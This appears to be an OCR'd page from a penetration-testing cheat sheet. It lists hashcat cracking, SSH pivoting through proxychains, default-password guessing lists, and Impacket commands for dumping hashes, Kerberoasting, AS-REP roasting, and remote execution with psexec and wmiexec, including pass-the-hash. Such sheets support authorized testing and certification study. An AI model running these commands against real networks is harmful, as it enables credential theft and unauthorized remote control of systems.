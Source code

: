 ```powershell
#Obtain the Hash module number 
hashcat -m <number> hash wordlists.txt --force
```

## Pivoting through SSH

```bash
ssh adminuser@10.10.155.5 -i id_rsa -D 9050 #TOR port

#Change the info in /etc/proxychains4.conf also enable "Quiet Mode"

proxychains4 crackmapexec smb 10.10.10.0/24 #Example
```

## Dealing with Passwords

- When there’s a scope for bruteforce or hash-cracking then try the following,
    - Have a valid username first
    - Don't forget trying `admin:admin`
    - Try `username:username` as first credential
    - If it’s related to a service, try default passwords.
    - The service name is the username, and the same name is used for the password.
    - Use Rockyou.txt
- Some default passwords to always try out!

```jsx
password
password1
Password1
Password@123
password@123
admin
administrator
admin@123
```

## Impacket

```bash
smbclient.py [domain]/[user]:[password/password hash]@[Target IP Address] #we connect to the server rather than a share

lookupsid.py [domain]/[user]:[password/password hash]@[Target IP Address] #User enumeration on target

services.py [domain]/[user]:[Password/Password Hash]@[Target IP Address] [Action] #service enumeration

secretsdump.py [domain]/[user]:[password/password hash]@[Target IP Address]  #Dumping hashes on target

GetUserSPNs.py [domain]/[user]:[password/password hash]@[Target IP Address] -dc-ip <IP> -request  #Kerberoasting, and request option dumps TGS

GetNPUsers.py test.local/ -dc-ip <IP> -usersfile usernames.txt -format hashcat -outputfile hashes.txt #Asreproasting, need to provide usernames list

GetNPUsers.py test.local/ -usersfile usernames.txt -request -no-pass

##RCE
psexec.py test.local/john:password123@10.10.10.1
psexec.py -hashes lmhash:nthash test.local/john@10.10.10.1

wmiexec.py test.local/john:password123@10.10.10.1
```